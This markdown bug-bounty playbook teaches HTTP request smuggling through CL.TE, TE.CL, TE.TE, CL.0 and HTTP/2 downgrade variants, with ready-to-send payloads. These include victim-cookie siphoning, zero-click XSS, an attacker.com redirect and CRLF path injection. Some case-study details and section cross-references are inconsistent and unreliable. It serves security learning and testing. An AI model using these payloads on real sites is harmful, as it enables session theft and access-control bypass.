

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
---

# HTTP Request Smuggling : Master Playbook

> **Goal:** Exploiting discrepancies in how front-end (proxy) and back-end servers interpret `Content-Length` (CL) and `Transfer-Encoding` (TE) headers to interfere with or hijack other users' requests.
> **Triggers:** Reverse proxies, CDNs, load balancers, HTTP/2 to HTTP/1.1 downgrades, or internal "Upgrade" headers.
> **Context:** Imagine a corporate mailroom (Front-End) that sorts packages by **Weight** (Content-Length), sending them to the office (Back-End) which sorts by the **Stamps** (Transfer-Encoding). If you send a box that is 10 lbs but has a stamp for 5 lbs, the Front-End pushes the whole box. The Back-End takes 5 lbs and leaves the rest on the belt. The next user's package gets your leftover 5 lbs glued to it!
> **Hacker Mindset:** "The proxy and the backend are speaking two different dialects of the same language. I'll use those tiny differences to leave a 'ticking bomb' of data in the server's memory for the next user."

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to decide which Request Smuggling pathway to prioritize:*



1.  **Does the server support HTTP/2 but the backend speaks HTTP/1.1 (Downgrade)?**
    *   **Yes** → Use **[[#5.4 Request Smuggling in HTTP/2 Downgrades]]** (CRLF in pseudo-headers).
2.  **Does the server support protocol upgrades like `Upgrade: h2c` or `WebSocket`?**
    *   **Yes** → Use **[[#5.1 Upgrade Header Tunneling]]** (Literal TCP Tunneling).
3.  **Does the server respond immediately to common "Forbidden" words (e.g., IIS `/con`)?**
    *   **Yes** → Use **[[#5.3 Web Cache Deception & The 0.CL Double Desync]]** (0.CL Logic).
4.  **Does the server show a timing delay when the `Content-Length` is shortened?**
    *   **Yes** → Use **[[#3.2 Core Protocol Vulnerabilities (CL.TE & TE.CL)]]** (CL.TE).
5.  **Does the server show a timing delay when the `Transfer-Encoding` is shortened?**
    *   **Yes** → Use **[[#3.2 Core Protocol Vulnerabilities (CL.TE & TE.CL)]]** (TE.CL).
6.  **Do both the proxy and backend support TE, but you can trick one into ignoring it?**
    *   **Yes** → Use **[[#3.3 Header Obfuscation (TE.TE)]]**.
7.  **Is the server stripping H2 pseudo-headers or headers in a way that allows smuggling?**
    *   **Yes** → Use **[[#5.4 Request Smuggling in HTTP/2 Downgrades]]** (H2.TE/H2.CL).
8.  **Can you tunnel a WebSocket connection to bypass front-end filters?**
    *   **Yes** → Use **[[#5.1 Upgrade Header Tunneling]]** (WebSocket Smuggling).
9.  **Can you "siphon" another user's request into a comment or search field?**
    *   **Yes** → Use **[[#4.1 Credential Siphoning & Request Capture]]**.
10. **Can you use Smuggling to trigger XSS for a victim without any clicks?**
    *   **Yes** → Use **[[#4.3 Reflected XSS via Smuggling]]**.
11. **Can you poison the web cache or deceive it using a Desync (0.CL Double Desync)?**
    *   **Yes** → Use **[[#5.3 Web Cache Deception & The 0.CL Double Desync]]**.

---

## 1. Professional Methodology: Summary Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **CL.TE / TE.CL** | Packet Splitting. | Timing Oracle (+5s). | Corrupted follow-up response. | **Critical ($2k+)** |
| **H2 Downgrade** | Binary Smuggling. | `\r\n` in pseudo-headers. | Injected request reaches BE. | **Critical ($3k+)** |
| **Upgrade Tunnel** | The "Master Key" pipe. | `101 Switching Protocols`. | Unfiltered path access (e.g. `/admin`). | **Medium/High ($800+)** |
| **Cache Poisoning**| Poisoning the public well. | Cache hits for everyone. | XSS triggered for all users. | **Critical ($5k+)** |
| **Cred Siphoning** | Opening someone's mail. | Long `Content-Length`. | Victim's cookies in follow-up post. | **Critical ($10k+)** |

---

## 2. Why It Happens: Core Logic

### 2.1 The Dialect Gap
HTTP Request Smuggling occurs because different servers in a chain (Proxy -> Backend) often interpret the rules of HTTP differently. If one server uses `Content-Length` (CL) and the other uses `Transfer-Encoding` (TE), you can hide a "Smuggled" request inside the body of a primary request.

### 2.2 Diagnostic Checklist (Hunter Questions)
*   [ ] **1. Does the server show timing differences?**
    - *Ask*: If I shorten the `Content-Length` but keep the `Transfer-Encoding: chunked` 0-terminator, does the server hang or error?
*   [ ] **2. Can I capture other users' requests?**
    - *Ask*: If I smuggle a partial `POST` request, do I receive the next user's headers in my app?
*   [ ] **3. Is HTTP/2 supported on the Edge?**
    - *Ask*: If the Edge is H2 but the Backend is H1.1, can I inject `\r\n` into a pseudo-header?
*   [ ] **4. Does the backend ignore TE?**
    - *Ask*: If I send a malformed `Transfer-Encoding: xchunked`, does it fall back to CL?

## 3. Section 01: Prerequisite Knowledge Masterclass

### 3.1 The Desync Architecture (Visualized)


> **Beginner Note**: Notice how the first request is interpreted normally by both the Frontend (FE) and Backend (BE). However, in the second request, the Frontend reads the entire payload, but the Backend stops early. The leftover "Smuggled Request" sits in the socket, waiting to be attached to the *next* legitimate user's request!

### 3.1.1 How to Tell If a Target Uses a Reverse Proxy
Before attempting smuggling, you need to confirm you have a **two-server architecture** (proxy + backend). Here are the telltale signs:
*   **Different `Server` Headers**: Send a normal request and an invalid one. If a valid request returns `Server: Apache` but a malformed one returns `Server: nginx`, you likely have a proxy in front.
*   **Hop-by-Hop Header Behavior**: Add `Connection: X-Custom-Header` and see if `X-Custom-Header` is stripped by the proxy before reaching the backend. If it is, a proxy is acting as an intermediary.
*   **`Via` and `X-Forwarded-For` Headers**: Many proxies automatically inject these. Check your response headers.
*   **Divergent Error Pages**: A `404` from the proxy often looks completely different (generic Nginx/Cloudflare page) than a `404` from the backend (custom app error page). Try requesting paths like `/%00` or `/../` to trigger different error handlers.
*   **Time-to-First-Byte (TTFB)**: Proxied connections often have a slightly higher TTFB due to the extra hop. Use `curl -w "%{time_starttransfer}" -o /dev/null -s https://target.com` to measure.
    > **Beginner Note:** If you only see one server header, don't give up. Many modern proxies are "transparent" and deliberately hide themselves. The timing oracle tests in Section 0 will confirm the desync even if you can't visually identify the proxy.

### 3.2 Core Protocol Vulnerabilities (CL.TE & TE.CL)

#### CL.TE (Content-Length used by Front-End, Transfer-Encoding by Back-End)
*   **Front-End**: Honors `Content-Length`.
*   **Back-End**: Honors `Transfer-Encoding: chunked`.
*   **Payload**:
    ```http
    POST / HTTP/1.1
    Host: target.com
    Content-Length: 30
    Connection: keep-alive
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Foo: x
    ```
*   **The Desync**: The Front-End sees `Content-Length: 30` and forwards the entire block. The Back-End sees `Transfer-Encoding: chunked`, reads the `0` (which signals the end of chunked data), and stops processing. The `GET /admin` request is left in the buffer to poison the next user.
    > **Beginner's Breakdown:** Think of `0` in chunked encoding as the period at the end of a sentence. The Back-End reads up to the `0`, thinks the conversation is over, and hangs up. But the Proxy already pushed the entire message (including the `GET /admin`) into the tube. That `GET /admin` is now stuck in the tube. When the next user connects, that leftover `GET /admin` falls out first!

#### TE.CL (Transfer-Encoding used by Front-End, Content-Length by Back-End)
*   **Front-End**: Honors `Transfer-Encoding: chunked`.
*   **Back-End**: Honors `Content-Length`.
*   **Payload**:
    ```http
    POST / HTTP/1.1
    Host: target.com
    Content-Length: 4
    Connection: keep-alive
    Transfer-Encoding: chunked

    7b
    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10

    x=
    0

    ```
*   **The Desync**: The Front-End sees `Transfer-Encoding: chunked` and forwards everything up to the final `0`. The Back-End sees `Content-Length: 4`, reads only `7b\r\n`, and stops. The `GET /admin` request is left in the buffer.
    > **Beginner's Breakdown:** This is the reverse of CL.TE. Here, the Back-End is the one strictly counting characters (Content-Length). It reads exactly 4 bytes (`7`, `b`, `\r`, `\n`) and stops. Everything after that (the `GET /admin` and the `0`) is left stuck in the connection tube, waiting to hijack the next person's request.

### 3.3 Header Obfuscation (TE.TE)
Tricking servers into ignoring the `Transfer-Encoding` header:
```http
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
```
> **Beginner's Breakdown:** Why do we do this? Sometimes both the Front-End and Back-End support `Transfer-Encoding`. To create a desync, we need one of them to *ignore* the TE header and fall back to using `Content-Length`. By slightly breaking the formatting of the header (like adding a space before the colon), we hope the Proxy says "This header is invalid, I'll use Content-Length" but the Backend says "I know what you meant, I'll use Transfer-Encoding". This turns a TE.TE situation into a CL.TE or TE.CL situation!

#### More TE.TE Obfuscation Techniques (Extended Arsenal)
```http
Transfer-Encoding: chunked
Transfer-encoding: cow

Transfer-Encoding: chunked
Transfer-Encoding: identity

Transfer-Encoding: chunked\r\nX: 

Foo: bar\r\nTransfer-Encoding: chunked

Transfer-Encoding\n: chunked
```
*   **Case Variation**: Some servers are case-sensitive. Try `Transfer-encoding` (lowercase `e`) vs `Transfer-Encoding` (uppercase `E`). The proxy may reject one but the backend accepts it.
*   **Double TE**: Send `Transfer-Encoding: chunked` twice. Some servers use the first occurrence, others use the last. If the proxy uses the first and the backend uses the last (or vice versa), you can desync by making one valid and one invalid.
*   **Identity Trick**: `Transfer-Encoding: identity` is technically valid HTTP/1.1 and means "no encoding". Some proxies treat it as "use Content-Length" while the backend may still try to process chunks.
    > **Beginner Note:** Testing TE.TE is tedious but rewarding. In real bug bounties, this is often the variant that catches developers off guard because they "properly" support both headers—but they support them *differently*.

### 3.4 The CL.0 Variant (Backend-Only Desync)

This is a newer technique discovered by James Kettle that works when **there is no frontend proxy at all**, or the backend itself acts inconsistently.
*   **Concept**: Some backends ignore `Content-Length` on `GET` requests (because GETs shouldn't have bodies). But if you send a `GET` with a `Content-Length` and a body, the backend processes the GET, ignores the body, and leaves the body in the socket.
*   **Payload**:
    ```http
    GET / HTTP/1.1
    Host: target.com
    Content-Length: 34

    GET /admin HTTP/1.1
    Foo: bar
    ```
*   **The Desync**: The backend processes `GET /`, returns a response, but the 34-byte body (`GET /admin...`) is left unread in the TCP connection. The next request on that connection inherits it.
    > **Beginner's Breakdown:** This is sneaky because most people assume smuggling requires TWO different servers disagreeing. CL.0 proves a single server can disagree with *itself*! It processes the GET normally but leaves your smuggled body data sitting in the pipeline like a ticking bomb for the next request.

### 3.5 Timing Oracle Detection Methodology

Before you can exploit a desync, you need to **prove** one exists. Here's the systematic timing-based approach:

#### CL.TE Detection (Step by Step)
1.  Send a request with **both** `Content-Length` and `Transfer-Encoding: chunked`.
2.  Set `Content-Length` to match the full body length.
3.  Set the chunked body to terminate early (just `0\r\n\r\n`).
4.  After the `0`, add extra data (e.g., `X`).
5.  **If CL.TE vulnerable**: The response comes back **immediately** (the backend processed the chunked `0` and stopped). Send a follow-up request on the same connection and see if the `X` corrupts it.
6.  **If NOT vulnerable**: The response takes a long time (the frontend processed CL and is confused by the extra data).

#### TE.CL Detection (Step by Step)
1.  Send a request with `Transfer-Encoding: chunked` and a **very small** `Content-Length` (e.g., `4`).
2.  The chunked body should be larger than 4 bytes.
3.  **If TE.CL vulnerable**: The response takes **a long time** (the backend is waiting for more data because CL said only 4 bytes, but chunked hasn't sent the `0` yet).
4.  **If NOT vulnerable**: The response comes back immediately.
    > **Beginner Note:** The "timing" approach is safer than blindly sending exploit payloads because it doesn't actually affect other users. You are just measuring how long the server takes to respond, which tells you which header it prioritizes.

---

## 4. Section 02: Exploitation Triage (Actionable Impact)

### 4.1 Credential Siphoning & Request Capture
*   **Goal**: Smuggle a partial request that forms the prefix of the *next* user's request.
*   **Capture**: The victim's request (including their Session Cookie/Authorization header) will be appended to your smuggled POST form, posting their cookies into a comment or search field you can view.
    > **Beginner's Breakdown:** Imagine you smuggle a request that says "Post a new comment, and the comment text is: ". Because you don't finish your request, the server sits and waits. When the victim connects, their browser sends: `GET /home HTTP/1.1\r\nCookie: session=secret`. The server glues them together! The victim accidentally just posted their own secret session cookie as a public comment on your blog post!

*   **Full CL.TE Credential Siphoning Payload**:
    ```http
    POST / HTTP/1.1
    Host: target.com
    Content-Length: 130
    Transfer-Encoding: chunked

    0

    POST /post/comment HTTP/1.1
    Host: target.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 800
    Cookie: session=YOUR_SESSION

    comment=
    ```
*   **How It Works**: The `Content-Length: 800` on the inner smuggled request is deliberately *too large*. The backend thinks it needs 800 bytes of body, but we only sent `comment=`. So it waits for more data. When the victim's browser sends its next request on that connection, their entire request (headers, cookies, everything) becomes the remaining body data, filling up the `comment=` parameter.
*   **Where to Read It**: Navigate to the comment section as yourself and read the captured data.
    > **Elite Tip:** Set the inner `Content-Length` high enough to capture the full victim request (cookies are usually in the first 400-600 bytes), but not so high that the server times out waiting. `800` is a good starting point.

### 4.2 Reaching Internal Admin Panels (WAF & Router Bypass)
*   **Internal Routing**: Smuggle a request for an internal-only path (e.g., `GET /admin`) that is normally blocked at the proxy level (`403 Forbidden`). 
*   **Because the proxy only inspected the outer request**, the inner smuggled request bypasses URL rules.
    > **Beginner's Breakdown:** The Front-End proxy is like a bouncer checking IDs. He sees your outer envelope labeled "Safe Public Request" and lets it through. He doesn't look inside. Once inside, the Back-End opens the envelope, finds a secret hidden letter addressed to the `/admin` room, and processes it because it assumes the bouncer already approved it.

### 4.3 Reflected XSS via Smuggling
*   Smuggle a request containing an XSS payload (e.g., in an un-sanitized `User-Agent` header) to an endpoint that reflects it. The victim's *next* response contains your XSS without them clicking any link.
*   **Full TE.CL XSS Smuggling Payload**:
    ```http
    POST / HTTP/1.1
    Host: target.com
    Content-Length: 4
    Transfer-Encoding: chunked

    5e
    GET /reflected-endpoint HTTP/1.1
    Host: target.com
    User-Agent: <script>alert(document.cookie)</script>

    0

    ```
*   **Why This Is Dangerous**: Unlike normal Reflected XSS (which requires the victim to click a malicious link), this attack is **zero-click**. The victim just has to browse the site normally. Their next innocent request gets hijacked and the response they receive contains your XSS payload.
    > **Beginner's Breakdown:** Normal XSS is like sending someone a link to a trap. Smuggled XSS is like replacing their front door with a trap door. They don't even know anything is wrong. They walk through their usual entrance and fall right in. This is why smuggling-based XSS is rated much higher severity in bug bounties.

### 4.4 Open Redirect and Redirect-Based Attacks
*   **Smuggle a redirect**: Inject `Host: attacker.com` in your smuggled request. If the backend uses the `Host` header to generate redirect URLs (e.g., for a login page), the victim is redirected to your attacker-controlled site.
*   **Payload**:
    ```http
    GET /login HTTP/1.1
    Host: attacker.com
    ```
*   **Impact**: Phishing. The victim sees a real response from the target's domain but gets redirected to your fake login page, capturing their real credentials.
    > **Beginner's Breakdown:** This is like replacing the sign on a legitimate store with one pointing to your fake store next door. The victim thinks they're walking into the real shop because the street address (the domain) looks correct.

---

## 5. Section 03: Advanced Heritage Tactics

### 5.1 Upgrade Header Tunneling

*   **H2C Smuggling (TCP Tunneling via HTTP/2 Cleartext):**
    - **Concept**: Trick the proxy into "switching protocols" via an `Upgrade: h2c` header. Once the proxy switches, it stops inspecting the HTTP traffic, establishing a raw TCP pipe directly to the backend over HTTP/2.
    - **Payload**:
      ```http
      GET / HTTP/1.1
      Host: target.com
      Upgrade: h2c
      HTTP2-Settings: AAMAAABkAARAAAAAAAIAAAAA
      Connection: Upgrade, HTTP2-Settings
      ```
    - **Impact**: Bypass path-based routing, authentication, and WAFs entirely. Inherently vulnerable defaults include HAProxy, Traefik, and Nuster.
      > **Beginner's Breakdown:** `Upgrade: h2c` tells the proxy "Hey, let's stop speaking HTTP/1.1 and switch to a direct HTTP/2 binary stream". If the proxy agrees but the backend doesn't properly support it, the proxy just steps out of the way and acts like a raw wire. You suddenly have a direct, unfiltered pipe to the backend server. The WAF is completely blind to what you send through this pipe!

*   **WebSocket Smuggling (Scenario 2):**
    - **Concept**: A proxy validates only the *existence* of an `Upgrade` header, allowing you to spoof a WebSocket connection and gain a raw socket to the backend.
    - **Execution**: Send a `POST` to a health-check or webhook endpoint with `Upgrade: websocket`. Force the endpoint to contact your attacker server. Your server returns `HTTP/1.1 101 Switching Protocols`. The proxy assumes a WebSocket is established, granting a raw tunnel to the vulnerable internal backend.
    - **Step-by-Step Kill-Chain**:
      1.  Identify an endpoint that makes server-side requests (SSRF-like behavior), such as a URL preview, health check, or webhook callback.
      2.  Send a request to this endpoint with `Upgrade: websocket` and `Connection: Upgrade`, pointing to your attacker server.
      3.  The endpoint contacts your server. Your server responds with `101 Switching Protocols`.
      4.  The proxy sees the `101`, thinks a WebSocket was upgraded, and stops inspecting traffic on this connection.
      5.  You now have a raw TCP tunnel. Send anything you want directly to the backend (e.g., `GET /admin`, internal API calls, etc.).
    > **Beginner's Breakdown:** This is like calling a company's reception desk and saying "I need to speak to Bob in the warehouse" (the health-check endpoint). Bob calls your phone (your server). Your phone answers with "We're now on a private line" (101 Switching Protocols). The receptionist (proxy) thinks it's a private WebSocket call and walks away. Now you have a direct, unmonitored line to the entire warehouse (backend)!

### 5.2 HTTP Response Smuggling / Desync

*   **Queue Desynchronization:**
    - Unlike Request Smuggling (which injects 1.5 requests), Response Smuggling injects *complete* requests into the socket queue.
    - By sending 2 complete requests over a shared connection, you desynchronize the proxy's response queue -> the victim receives your attacker-controlled response instead of their own.
*   **TRACE Abuse (Mass Response Injection):**
    - **Execution**: Smuggle a `HEAD` request followed by a `TRACE` request. 
    - **The Desync**: The `HEAD` request tells the proxy to expect a specific `Content-Length`. The proxy reads the body of the `TRACE` response (which reflects your headers) as the body of the `HEAD` request.
    - **Impact**: Mass response injection. Any user querying that socket will receive your reflected XSS payload disguised as a legitimate cached body.
    > **Beginner's Breakdown:** Imagine a post office where letters go in one side and responses come out the other. You send two letters through a trick: a `HEAD` letter (which gets a response with a body-length prediction but no actual body) and a `TRACE` letter (which echoes back everything you wrote, including your XSS). The post office sees the `HEAD` response and says "OK, the next X bytes belong to this response". But those X bytes are actually your `TRACE` reflection containing malicious JavaScript! The victim collects what they think is their legitimate mail, but it's your poisoned response.

*   **Web Cache Poisoning via Response Smuggling**:
    - If the proxy **caches** responses, you can permanently poison the cache. You send your smuggled TRACE+HEAD request, the proxy caches the poisoned response, and now **every** future visitor to that URL receives your XSS payload from cache—without you needing to maintain the attack.
    - **Impact Multiplier**: A single successful cache poison can affect thousands of users over the cache TTL (Time To Live) window.

### 5.3 Web Cache Deception & The 0.CL Double Desync

*   **Web Cache Deception via Smuggling**:
    - **Execution**: Craft a smuggled request that fetches the victim's sensitive data (e.g., `GET /private/messages`), but time it so the proxy caches it under a public static extension cache entry (`GET /someimage.png`).
    - **Impact**: You can now navigate to `/someimage.png` and read the victim's private messages.

*   **0.CL Scenario (Backend waits indefinitely)**:
    - **Concept**: The Frontend ignores `Content-Length`, but the Backend honors it.
    - **Execution**:
      ```http
      GET /Logon HTTP/1.1
      Host: target.com
      Content-Length: 7

      GET /404 HTTP/1.1
      X: Y
      ```
    - The Backend waits indefinitely for a body because the Front-End didn't send one. 
    - **The Fix (Double Desync)**: Target an endpoint that responds *before* reading the body (e.g., IIS `/con` forbidden words). The initial request is responded to immediately, and the second request (`GET /404`) poisons the socket!
      > **Beginner's Breakdown:** Normally, if the backend is waiting for body data that never comes, it just hangs and times out. That's useless to us. But if we ask Microsoft IIS for a reserved word like `/con`, it instantly yells "ERROR 400!" *before* it even tries to read the body. Because it stops reading early, our smuggled `GET /404` body drops right into the socket unread, ready to perfectly poison the next user!

### 5.4 Request Smuggling in HTTP/2 Downgrades

*   **Concept**: HTTP/2 uses a binary framing mechanism, meaning newlines (`\r\n`) can be naturally included in pseudo-headers without breaking the request format. However, when a reverse proxy converts the HTTP/2 request into HTTP/1.1 for the backend, these injected newlines can split the request stream!
*   **Execution**:
    - Using an HTTP/2 client (like Burp Suite), inject `\r\n` into a custom header or path.
    - Example Header Injection:
      ```
      foo: bar\r\n
      \r\n
      GET /admin HTTP/1.1\r\n
      Host: target.com
      ```
    - When the proxy reconstructs the HTTP/1.1 stream, the `\r\n` causes the `GET /admin` to be parsed as an entirely separate request on the backend connection.

*   **CRLF in URL Path**:
    - Some proxies allow `\r\n` in the URL path itself when using HTTP/2.
    - **Payload** (in HTTP/2 `:path` pseudo-header):
      ```
      :path: /%0d%0aHost:%20attacker.com%0d%0a%0d%0aGET%20/admin%20HTTP/1.1
      ```
    - When downgraded to HTTP/1.1, the URL-decoded newlines split the request into two separate requests on the backend.
    > **Beginner's Breakdown:** HTTP/2 is binary, so the proxy doesn't look at the request the same way a human would. It just sees a blob of bytes and passes it along. When it converts back to HTTP/1.1 text format, hidden newlines suddenly appear and break the request into two. It's like writing a secret message in invisible ink that only appears when the paper is exposed to heat (the protocol conversion).

*   **H2 Header Name Injection**:
    - HTTP/2 allows headers to contain characters that would be illegal in HTTP/1.1 (like colons or spaces). Some proxies faithfully convert these to HTTP/1.1, creating entirely new headers.
    - **Example**: A header named `transfer-encoding` with value `chunked` in HTTP/2 can force chunked encoding on the backend after downgrade, even if the proxy didn't intend to use chunked encoding.

---

## 6. Tooling & Automation
*   **HTTP Request Smuggler / HTTP Hacker (Burp Suite)**: The definitive tools for automated desync detection, observing socket concatenation, and connection-state probes.
*   **Turbo Intruder**: Used for high-speed timing-based verification and precision socket manipulation (`requestsPerConnection`).
*   **smuggleFuzz**: Specialized for HTTP/2 and HTTP/3 desync attacks.

### 6.1 Burp Suite: HTTP Request Smuggler Extension (Workflow)
1.  **Install**: Go to BApp Store > Search "HTTP Request Smuggler" > Install.
2.  **Run**: Right-click any request in Proxy/Repeater > "Launch Smuggle Probe".
3.  **Interpret Results**: The extension will send timing-based CL.TE and TE.CL probes. Look for:
    - "Issue found: CL.TE" (most common).
    - "Issue found: TE.CL" (less common but equally dangerous).
4.  **Manual Verification**: Once a finding is flagged, go to Repeater, craft the appropriate payload from Section 2.2, and verify with a second connection.
    > **Beginner Note:** The scanner will sometimes report false positives if the server is slow. Always manually verify by sending two requests on the same connection and checking if the second one is corrupted by your smuggled data.

### 6.2 Turbo Intruder: Precision Timing Script
Turbo Intruder lets you control exactly how requests are pipelined over a single connection.
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=2,
                           pipeline=False)
    # First request: The "smuggle" payload
    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=2000)
    # Second request: The "victim" request to detect corruption
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```
*   **`requestsPerConnection=2`**: Forces both requests through the same TCP connection, which is essential for smuggling.
*   **`pauseMarker`**: Pauses after sending headers, ensuring the server processes the first request before the second arrives.
    > **Beginner Note:** Turbo Intruder is not beginner-friendly, but it's extremely powerful. The key setting is `requestsPerConnection`—if you set it to 1, smuggling is impossible because each request gets its own clean connection.

### 6.3 Manual Testing Checklist
If tools fail, here is the manual step-by-step process:
1.  **Step 1**: Confirm the target is behind a reverse proxy (see Section 2.1.1).
2.  **Step 2**: Send a timing probe for CL.TE (see Section 2.5). Record the response time.
3.  **Step 3**: Send a timing probe for TE.CL. Record the response time.
4.  **Step 4**: If one probe shows a significant delay (>5 seconds), you have a potential desync.
5.  **Step 5**: Craft the appropriate exploit payload from Section 2.2.
6.  **Step 6**: Open two browser tabs. In Tab 1, send the smuggle payload. In Tab 2, send a normal request. If Tab 2's response is corrupted or shows unexpected content (like an admin page), you have confirmed the vulnerability.
7.  **Step 7**: Escalate to Credential Siphoning (Section 3.1) or XSS (Section 3.3) to demonstrate real-world impact for your bug bounty report.

---

## 7. Section 04: Real-World Case Studies

### 7.1 PayPal CL.TE (HackerOne Report)
*   **Researcher**: James Kettle (albinowax)
*   **Architecture**: Akamai CDN (Front-End) → PayPal Application Server (Back-End).
*   **The Desync**: Akamai used `Content-Length` while PayPal's backend used `Transfer-Encoding: chunked`.
*   **The Attack**: Kettle smuggled a `GET /` request with `Host: attacker.com`. The next PayPal user's response was a redirect to `attacker.com`, enabling mass phishing.
*   **Bounty**: Classified, but estimated at $20,000+ based on severity.
    > **Beginner Lesson:** This shows that even the largest companies with enterprise CDNs (Akamai, Cloudflare) are vulnerable. The vulnerability is in the *gap* between the two servers, not in either server individually.

### 7.2 Slack H2.CL Smuggling
*   **Architecture**: Envoy Proxy (HTTP/2) → Backend (HTTP/1.1).
*   **The Desync**: Envoy supported HTTP/2 but the backend only spoke HTTP/1.1. The downgrade path allowed CRLF injection in pseudo-headers.
*   **Impact**: Session hijacking of Slack users. An attacker could steal session tokens simply by timing their smuggled request to coincide with a victim's active session.

### 7.3 Atlassian Jira/Confluence (CVE-2023-22518 era)
*   Many Atlassian products sit behind Nginx or Apache reverse proxies. Researchers found TE.CL desyncs where the proxy relied on TE while the Java backend (Tomcat) relied on CL.
*   **Impact**: Internal admin access, data exfiltration, and account takeover.
    > **Beginner Lesson:** Java application servers (Tomcat, Jetty, WildFly) are historically among the most common backends vulnerable to smuggling because of how they parse HTTP headers differently from modern proxies.

---

## 8. Resources & Further Reading

### 8.1 Foundational Research (Must-Read)
| Resource | Author | Why It Matters |
| :--- | :--- | :--- |
| [HTTP Desync Attacks: Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) | James Kettle | The 2019 paper that reignited modern smuggling research. Covers CL.TE, TE.CL, and real-world exploitation against PayPal, Akamai, and more. |
| [HTTP/2: The Sequel is Always Scarier](https://portswigger.net/research/http2) | James Kettle | Extends smuggling to HTTP/2 downgrades, H2.CL, H2.TE, and the `0.CL` / `CL.0` variants. |
| [Browser-Powered Desync Attacks](https://portswigger.net/research/browser-powered-desync-attacks) | James Kettle | Client-side desync (CSD) attacks that work through the browser itself, no proxy needed. |
| [Breaking the Chains with HTTP Request Smuggling](https://portswigger.net/research/breaking-the-chains-with-http-request-smuggling) | James Kettle | The original 2019 DEF CON/Black Hat talk. Best starting point for visual learners. |

### 8.2 Practice Labs
| Lab | Difficulty | What You Learn |
| :--- | :--- | :--- |
| [PortSwigger Web Security Academy — HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling) | Beginner → Expert | 20+ interactive labs covering CL.TE, TE.CL, TE.TE, H2 smuggling, response queue poisoning, and browser-powered CSD attacks. **Start here.** |
| [PortSwigger Web Security Academy — HTTP/2 Request Smuggling](https://portswigger.net/web-security/request-smuggling/advanced/http2-exclusive-vectors) | Advanced | Labs focused specifically on HTTP/2 exclusive vectors and downgrade attacks. |

### 8.3 Tools
| Tool | Link | Purpose |
| :--- | :--- | :--- |
| **HTTP Request Smuggler** | [BApp Store](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) | Burp Suite extension for automated CL.TE / TE.CL / TE.TE detection via timing oracles. |
| **Turbo Intruder** | [BApp Store](https://portswigger.net/bappstore/9abfe09175b74b18df62ebb3d6e96165) | High-performance request engine for precise connection pipelining and timing attacks. |
| **smuggleFuzz** | [GitHub](https://github.com/defparam/smuggler) | CLI tool for automated HTTP smuggling scans. Supports HTTP/1.1 and HTTP/2. |
| **h2csmuggler** | [GitHub](https://github.com/BishopFox/h2csmuggler) | BishopFox's tool specifically for H2C upgrade smuggling attacks. |
| **HTTP/2 Smugl** | [GitHub](https://github.com/neex/http2smugl) | Specialized tool for HTTP/2 CRLF injection and downgrade smuggling. |

### 7.4 Talks & Videos
*   🎥 **[DEF CON 27 — HTTP Desync Attacks](https://www.youtube.com/watch?v=w-eJM2Pc0KI)** — James Kettle's original talk. The best 45 minutes you can spend learning this topic.
*   🎥 **[DEF CON 29 — HTTP/2: The Sequel](https://www.youtube.com/watch?v=E-bnlGRFMBc)** — The HTTP/2 follow-up. Covers H2.CL, H2.TE, and browser-powered desyncs.
*   🎥 **[NahamCon 2020 — HTTP Request Smuggling](https://www.youtube.com/watch?v=gzM4wWA7RFo)** — Beginner-friendly walkthrough of smuggling concepts and PortSwigger labs.

---
---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Web Cache Poisoning >>](Web%20Cache%20Poisoning%20&%20Deception.md) >>*
